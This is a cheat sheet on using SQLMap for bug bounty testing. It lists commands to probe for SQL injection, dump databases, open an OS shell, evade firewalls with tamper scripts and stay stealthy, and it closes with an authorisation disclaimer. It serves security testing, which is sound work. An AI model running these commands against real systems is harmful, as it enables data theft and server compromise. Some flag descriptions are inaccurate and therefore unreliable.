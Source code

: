 # SQLMap Fast Documentation for Bug Bounty

## Quick Start Cheat Sheet

### Basic Usage
```
sqlmap -u "http://example.com/vuln.php?id=1" --batch --random-agent
```

### Essential Flags
- `-u` or `--url`: Target URL
- `--batch`: Non-interactive mode (auto-selects defaults)
- `--random-agent`: Randomize User-Agent header
- `--level` and `--risk`: Increase for more thorough tests (1-5 and 1-3 respectively)
- `--dbms`: Specify DBMS (MySQL, Oracle, PostgreSQL, etc.)
- `--os`: Specify OS if known

### Common Scenarios

**GET Parameter Testing**
```
sqlmap -u "http://example.com/page.php?id=1" --dbs
```

**POST Parameter Testing**
```
sqlmap -u "http://example.com/login" --data="username=admin&password=pass" --dbs
```

**Custom wordlist**
```sh
sqlmap -u "http://example.com/vuln.php?id=1" --wordlist=/path/to/wordlist.txt
```

**Cookie-Based Testing**
```
sqlmap -u "http://example.com/dashboard" --cookie="PHPSESSID=abc123" --dbs
```

### Data Extraction

**List Databases**
```
sqlmap -u "http://example.com/vuln.php?id=1" --dbs
```

**List Tables in Specific DB**
```
sqlmap -u "http://example.com/vuln.php?id=1" -D database_name --tables
```

**Dump Table Data**
```
sqlmap -u "http://example.com/vuln.php?id=1" -D database_name -T table_name --dump
```

**Get OS Shell**
```
sqlmap -u "http://example.com/vuln.php?id=1" --os-shell
```

### Advanced Techniques

**WAF Bypass**
```
sqlmap -u "http://example.com/vuln.php?id=1" --tamper=space2comment --random-agent --delay=1
```

**Common Tamper Scripts**
- `space2comment`: Replaces spaces with comments
- `between`: Replaces BETWEEN with NOT BETWEEN
- `randomcase`: Randomly changes case of characters
- `charencode`: URL-encodes characters

**Threading for Speed**
```
sqlmap -u "http://example.com/vuln.php?id=1" --threads=5
```

### Reporting

**Save Output to File**
```
sqlmap -u "http://example.com/vuln.php?id=1" --output-dir=/path/to/results
```

**Generate HTML Report**
```
sqlmap -u "http://example.com/vuln.php?id=1" --output-dir=/path/to/results --dump-format=HTML
```

## Bug Bounty Pro Tips

1. **Be Ethical**: Only test authorized targets
2. **Rate Limiting**: Use `--delay` to avoid overwhelming servers
3. **Stealth**: Combine `--random-agent`, `--proxy`, and `--time-sec` for stealth
4. **Automation**: Use `--crawl` to automatically find injection points
5. **Second-Order**: Test for stored SQLi with `--second-url`
6. **JSON Injection**: Test API endpoints with `--data` and `--headers="Content-Type: application/json"`

## Legal Disclaimer
Always obtain proper authorization before testing. Unauthorized testing is illegal and against bug bounty program policies.
